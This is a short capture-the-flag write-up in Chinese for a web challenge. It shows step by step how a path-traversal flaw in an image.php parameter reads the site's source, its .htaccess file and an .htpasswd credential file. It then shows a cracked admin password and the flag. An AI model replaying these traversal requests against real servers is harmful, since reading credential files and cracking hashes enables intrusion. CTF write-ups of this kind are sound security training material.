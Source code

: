 Web/Snoopy's flag
=================
> Solved by 連享恩

這題的圖片連結是長這樣：

![](http://54.199.166.146/699e46f901f0533e28b21b4a13e27e2f7b9092a2/image.php?p=flag.png)

image.php參數p後面接檔名

所以我嘗試用`http://54.199.166.146/699e46f901f0533e28b21b4a13e27e2f7b9092a2/image.php?p=../image.php`
就把image.php下載下來了

在註解中提示有admin/這個資料夾，然而需要認證

所以用`http://54.199.166.146/699e46f901f0533e28b21b4a13e27e2f7b9092a2/image.php?p=../admin/.htaccess`拿到了一個檔案

其中一行寫
```
AuthUserFile /var/www/web3/admin/.htpasswd_which_you_should_not_know
```
所以再用`http://54.199.166.146/699e46f901f0533e28b21b4a13e27e2f7b9092a2/image.php?p=../admin/.htpasswd_which_you_should_not_know`拿到
```
secret_admin:K7WeKYm8O5MQI
```
然而K7WeKYm8O5MQI有經過hash

經過John the Ripper password cracker

得到password是`!@#$%^&*`

最後拿到`CTF{apache_config_file_is_sensitive}`
